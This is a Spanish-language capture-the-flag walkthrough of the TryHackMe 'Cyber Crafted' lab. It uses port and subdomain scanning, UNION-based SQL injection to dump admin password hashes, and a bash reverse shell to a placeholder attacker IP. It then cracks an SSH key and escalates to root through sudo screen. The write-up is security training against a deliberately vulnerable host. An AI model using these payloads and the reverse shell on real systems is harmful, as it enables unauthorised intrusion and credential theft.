# Cyber Crafted

En esta maquina vamos a realizar explotacion de un servicio web en la cual debnemos enumerar los sundominios, es tos subdominios encontraremos un panel donde es vulnerable a sql injection para encontrar credenciales validas. Para la escalada de privilegios haremos uso de credenciales que encontraremos enumerando el sistema para luego explotar un binario que tenemos permisos privilegiados.



* Link [cybercrafted](https://tryhackme.com/room/cybercrafted)
* Created by  [madrinch](https://tryhackme.com/p/madrinch)

## Walkthrough

***

### Enumeración

Empezamos a enumerar los puertos que estan abiertos de la maquina victima

```php
❯ nmap -p- --open --min-rate 1000 -vvv -Pn -n 10.10.110.188 -oG allportsScan

PORT      STATE SERVICE   REASON
22/tcp    open  ssh       syn-ack
80/tcp    open  http      syn-ack
25565/tcp open  minecraft syn-ack
```

Teniendo conocimiento cada uno de los puertos abiertos, pasamos a enumerar cada uno de los servicios y versiones de estos puertos

```php
❯ nmap -p22,80,25565 -sC -sV -Pn -n -vvvv 10.10.110.188 -oN servicesScan
PORT      STATE SERVICE   REASON  VERSION
22/tcp    open  ssh       syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:36:ce:b9:ac:72:8a:d7:a6:b7:8e:45:d0:ce:3c:00 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDk3jETo4Cogly65TvK7OYID0jjr/NbNWJd1TvT3mpDonj9KkxJ1oZ5xSBy+3hOHwDcS0FG7ZpFe8BNwe/ASjD91/TL/a1gH6OPjkZblyc8FM5pROz0Mn1JzzB/oI+rHIaltq8JwTxJMjTt1qjfjf3yqHcEA5zLLrUr+a47vkvhYzbDnrWEMPXJ5w9V2EUxY9LUu0N8eZqjnzr1ppdm3wmC4li/hkKuzkqEsdE4ENGKz322l2xyPNEoaHhEDmC94LTp1FcR4ceeGQ56WzmZe6CxkKA3iPz55xSd5Zk0XTZLTarYTMqxxe+2cRAgqnCtE1QsE7cX4NA/E90EcmBnJh5T
|   256 e9:e7:33:8a:77:28:2c:d4:8c:6d:8a:2c:e7:88:95:30 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLntlbdcO4xygQVgz6dRRx15qwlCojOYACYTiwta7NFXs9M2d2bURHdM1dZJBPh5pS0V69u0snOij/nApGU5AZo=
|   256 76:a2:b1:cf:1b:3d:ce:6c:60:f5:63:24:3e:ef:70:d8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDbLLQOGt+qbIb4myX/Z/sYQ7cj20+ssISzpZCaMD4/u
80/tcp    open  http      syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://cybercrafted.thm/
|_http-server-header: Apache/2.4.29 (Ubuntu)
25565/tcp open  minecraft syn-ack Minecraft 1.7.2 (Protocol: 127, Message: ck00r lcCyberCraftedr ck00rrck00r e-TryHackMe-r  ck00r, Users: 0/1)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Los puertos que encotramos son: `22`, `80` y `25565`

#### Puerto 80

Enumerando el puerto `80` tendremos que nos redirige a un dominio. Dominio que agregaremos en el `/etc/hosts`

```
nano /etc/hosts
[IP-VICTIM]     cybercrafted.thm
```

Visitando el sitio web encontraremos el siguiente contenido



Enumerando de manera visual, no encontramos nada. Realizaremos una enumeración de los directorios del sitio web haciendo uso de `ffuf`, pero no encontramos nada interesante asi que procedi a enumerar subdominios

#### Fuzzing

```php
❯ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.cybercrafted.thm" -u http://10.10.70.213 -fl 1
```



Enumerando los subdominio encontré tres :

```php
www.cybercrafted.thm
admin.cybercrafted.thm
store.cybercrafted.thm
```

En `admin.cybercrafted.thm` encontraremos un panel de login que no se puede hacer mucho.



Viendo el contenido de cada uno de los otros subdominios no se encontró mucho, por lo que pasamos a enumerar los directorios. En el subdominio que si encontramos algo interesante es: `store.cybercrafted.thm`

```php
❯ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://store.cybercrafted.thm -t 150 -x txt,html,bd,zip,php

```



### Explotación

#### SQL injection

`store.cybercrafted.thm/search.php` Encont!ramos un panel de busqueda de items, que hace una consulta a una base de datos. [20231121155647.png](../CyberCrafted/20231121155647.png)

Ingreseando `seven' union select 1,2,3,4-- -` podemos ver que el 2,3,4 nos muestra en la fila.



Procederemos a enumerar los nombres de las bases de datos `seven' union select 1,schema_name,3,4 from information_schema.schemata--`



Nos encontramos con las siguientes bases de datos:

```php
information_schema
mysql
performance_schema
sys
webapp
```

La que nos parece interesante es `webapp`, por lo que enumeraremos las tablas que contiene esta base de datos.

```php
seven' union select 1,table_name,3,4 from information_schema.tables where table_schema='webapp'-- -
```



La base de datos `webapp` contiene dos tablas que son `admin` y `stock`

Continuamos con la enumeración de la base de datos, en esta enumeraremos las columnas que contiene la tabla.

```php
seven' union select 1,column_name,3,4 from information_schema.columns where table_name='admin' and table_schema='webapp' -- -
```



Tenemos las columnas de `id`, `user` y `hash`. Conociendo estos datos realizaremos una consulta a la tabla con los siguiente: `seven' union select 1,id,user,hash from webapp.admin-- -`



#### Cracking de hashes

Nos encontramos con credenciales que parecen estar encriptadas, así que procederemos a crackearlas con [Crackstation](https://crackstation.net/). Existen varias herramientas que te pueden ayudar a crackear, asi que sientete libre de usar la que se te hace mas comoda

```
xXUltimateCreeperXx : 88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01
web_flag : THM{bbe315906038c3a62d9b195001f75008}
```



Usaremos estas credenciales para ingresar al panel de login que vimos al inicio que se encuentra en : `http://admin.cybercrafted.thm/`

```
xXUltimateCreeperXx : diamond123456789
```

#### Ejecución de comandos

Podemos ejecutar comandos. Ahora lo que haremos será enviarnos una revershell para obtener una consola de la maquina victima.



Ingresamos el siguiente comando: `bash -c 'exec bash -i &>/dev/tcp/[IP-ATTACKER]/443 <&1'` en mi caso es lo que mayormente suelo usar, tu puedes usar otro si gustas

### Escalada de privilegios

#### Usuario www-data

Una vez obtenida la shell como el usuario `www-data`



Enumerando encontraremos un archivo `id_rsa` que tenemos permisos para leerlo



Con este archivo podemos ingresar por `ssh` sin proporcionar credenciales, pero antes tenemos que crackearla debido a que esta protegida por contraseña

1. Generamos el hash con `ssh2john`

```php
❯ ssh2john id_rsa > hash
```

2. Crackeamos con `john`

```php
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
creepin2006      (id_rsa)     
1g 0:00:00:01 DONE (2023-11-21 17:33) 1.000g/s 1896Kp/s 1896Kc/s 1896KC/s creepygoblin..creek93
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

3. Cambiamos los permisos de archivo `ìd_rsa`

```php
❯ chmod 600 id_rsa

creepin2006
```

4. Ejecutamos

```php
❯ ssh -i id_rsa xxultimatecreeperxx@10.10.70.213
```

5. Ingresamos la contraseña y podemos ingresar como el usuario `xxultimatecreeperxx`

#### Usuario - xxultimatecreeperxx

 Enumerando las ta20231121175040.pngreas que se ejecutan en el sistema, podemos observar una, de esto nos interesa la ruta donde se se realizando el comprimido



Antes de ir al directorio vemos que pertenecemos a un grupo llamando `minecraft`

```php
xxultimatecreeperxx@cybercrafted:~$ id
uid=1001(xxultimatecreeperxx) gid=1001(xxultimatecreeperxx) groups=1001(xxultimatecreeperxx),25565(minecraft)

```

Por lo que tenemos permisos para ingresar a la directorio y poder leer cada uno de los archivos.



En especial uno que nos llama la atención que es `log.txt` en donde encontraremos unas credenciales que permitirán iniciar sesión como el usuario `cybercrafted`



```
cybercrafted : JavaEdition>Bedrock
```



#### Usuario - cybercrafted

Teniendo credenciales validad para este usuario, procedemos a enumerar y podemos ver que el usuario puede ejecutar `/usr/bin/screen -r cybercrafted` de manera privilegiada



Por lo que ejecutamos

```php
sudo /usr/bin/screen -r cybercrafted
```



Ahora para escapar precionamos las teclas `ctrl + A` y luego `ctrl+ C`

#### Usuario - root



¡VAMOS!

Happy hacking :)
